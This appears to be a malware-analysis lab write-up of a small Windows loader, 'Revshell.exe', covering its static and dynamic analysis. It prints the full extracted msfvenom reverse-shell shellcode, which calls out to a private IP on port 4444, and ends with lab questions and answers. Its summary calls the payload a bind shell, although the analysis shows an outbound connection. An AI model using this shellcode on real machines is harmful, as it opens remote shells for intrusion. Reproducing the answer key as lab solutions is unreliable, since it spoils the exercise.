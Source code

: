 ```yaml
---
title: "RevShell"
date: 2025-1-28
categories: [Malware Analysis]
tags: [Malware Analysis]
---
```


## Executive Summary

The method of found involves using msfvenom to generate a payload that creates a bind shell for remote access, which is then embedded into a program that hides its console window, allocates memory for the payload, and executes it through a new thread.

---

### Sample information

| **Attribute**         | **Value**                                                                                      |
|-------------------------|----------------------------------------------------|
| **File name**           | Revshell.exe                                       |
| **File size**           | 10 KB                                              |
| **File type**           | Executive Application                              |
| **MD5**                 | e007490bf6a65e754902fa7a46bf1e31                   |
| **SHA1**                | d10c5b4eef622b728ebbc035727ae160fd580a26           |
| **SHA256**              | 137562a049e2d6aef2310070435e623dea623b2b5363beea083f5a28323a4538 |
| **Packer / compiler info** | N/A                                             |
| **Compile time**        | Fri May 17 14:52:52 2024 (UTC)                     |

---

## Case-Specific Requirements

### **Environment**
- **Operating System:** Windows

### **Tools Used**
- **IDA**  
- **APIMonitor**  
- **ProcMon**

---

## Static Analysis
Entering the main using IDA. The code starts the line with hides the application's console window using FindWindowA to get a handle to the console window and ShowWindow with the parameter 0 to hide it.

![img](assets/11-Revshell.exe/image212.png)

A buffer v7 is created to store data, and qmemcpy is used to copy 325 bytes from a memory address unk_402128 into this buffer.

Memory is allocated using VirtualAlloc with read, write, and execute permissions ‘0x40’ for storing the copied data.

After copying the buffer into the allocated memory, a thread is created using CreateThread, which executes the code at the allocated memory address ‘v4’.

Finally, the program waits indefinitely for the thread to finish using WaitForSingleObject. The operations of these code performs dynamic execution of a payloads in memory.

![img](assets/11-Revshell.exe/image213.png)
 
The starting hex was ‘fc’ followed with ‘e8’,’82’ and so one. Extract all the hex would be like:

```
fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 14 8b 72 28 0f b7 4a 26 31 ff ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52 10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1 51 8b 59 20 01 d3 8b 49 18 e3 3a 49 8b 34 8b 01 d6 31 ff ac c1 cf 0d 01 c7 38 e0 75 f6 03 7d f8 3b 7d 24 75 e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a 8b 12 eb 8d 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 ff d5 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 05 68 c0 a8 00 80 68 02 00 11 5c 89 e6 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 68 63 6d 64 00 89 e3 57 57 57 31 f6 6a 12 59 56 e2 fd 66 c7 44 24 3c 01 01 8d 44 24 10 c6 00 44 54 50 56 56 56 46 56 4e 56 56 53 56 68 79 cc 3f 86 ff d5 89 e0 4e 56 46 ff 30 68 08 87 1d 60 ff d5 bb f0 b5 a2 56 68 a6 95 bd 9d ff d5 3c 06 7c 0a 80 fb e0 75 05 bb 47 13 72 6f 6a 00 53 ff d5 00 00 00 00
```
 
Turn the empty space into ‘\x’:

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x00\x00\x00\x00
```

Google dork first 8 byte:

![img](assets/11-Revshell.exe/image214.png)

It was a common ‘msfvenom’ of x86 program for tcp encoded

![img](assets/11-Revshell.exe/image215.png)

---

##	 Dynamic Analysis

Using APIMonitor and can see the API load and created a Thread.

![img](assets/11-Revshell.exe/image216.png)

Checking the ProcMon, the Thread was created before an TCP connection attempt to connect with the machine existed.

![img](assets/11-Revshell.exe/image217.png)

TCP attempt on the port 4444:

![img](assets/11-Revshell.exe/image218.png)

---

##	 IOCs

| IOC                                                                                          | Type                                |
|---------------------------------------------------------------------------------------------|-------------------------------------|
|  192[.]168[.]0[.]128[:]4444	|  IP:PORT  |

---
 
##	 Additional Notes

- **What is the size (in hex) of the shellcode bytes found in the malware?**
  - `145`

- **What is the virtual address of the shellcode reside in the program?**
  - `402128`

- **What is the WinAPI that is used to run the shellcode?**
  - `CreateThread`

- **How many parameters does VirtualAlloc take in the code?**
  - `4`
